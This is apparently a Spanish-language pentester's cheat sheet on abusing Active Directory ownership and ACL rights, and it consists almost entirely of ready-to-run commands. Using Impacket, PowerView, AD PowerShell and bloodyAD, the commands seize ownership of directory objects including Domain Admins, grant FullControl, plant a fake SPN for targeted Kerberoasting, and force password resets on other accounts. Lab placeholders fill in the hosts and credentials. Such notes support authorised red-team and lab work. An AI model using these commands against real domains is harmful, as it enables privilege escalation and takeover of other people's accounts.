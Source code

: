 # Info

Si tenemos acceso a la máquina solo mediante winrm, evil-winrm tiene muchos problemas de sesión, para no perder tiempo: Usar directamente las herramientas de linux.

# Desde Linux

### Impacket

#### Cambiar el ownership
    impacket-owneredit -action write -new-owner 'aaru' -target-dn 'CN=Domain Admins,CN=Users,DC=ignite,DC=local' 'ignite.local'/'aaru':'Password@1' -dc-ip 192.168.1.6

#### Darse full control

    impacket-dacledit -action 'write' -rights 'FullControl' -principal 'sakshi' -target-dn 'CN=ankur,CN=Users,DC=ignite,DC=local' 'ignite.local'/'sakshi':'Password@1' -dc-ip 192.168.1.6
# Desde windows

### Powerview

#### Tomar control
    Set-DomainObjectOwner -Identity 'roma' -OwnerIdentity 'sameer'

#### Darse full control

    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "roma" -PrincipalIdentity "sameer"

### AD powershell
    $user = Get-ADUser -Identity "UsuarioAD" -Properties * 
    $acl = Get-ACL -Path "AD:\$($user.DistinguishedName)"
    $newOwner = (New-Object System.Security.Principal.NTAccount("Dominio\NuevoPropietario"))
    $acl.SetOwner($newOwner)
    Set-ACL -Path "AD:\$($user.DistinguishedName)" -AclObject $acl

---

# Explotación/abuso
## Kerberoasting
#### 1) Creamos un spn falso sobre el usuario

    Set-DomainObject -Identity 'roma' -Set @{serviceprincipalname='mydomain/Testing'}
#### 2) Kerberosteamos y crackeamos.

## Cambiar contraseña del user

### BloodyAD
    bloodyAD --host "192.168.1.6" -d "ignite.local" -u "sakshi" -p "Password@1" set password "ankur" "Password@987"

### Impacket
#### Cambiar mediante kpasswd
    impacket-changepasswd -reset -protocol kpasswd contoso.local/j.doe@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm
#### Cambiar mediante ldap
    impacket-changepasswd -reset -protocol ldap contoso.local/j.doe@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm
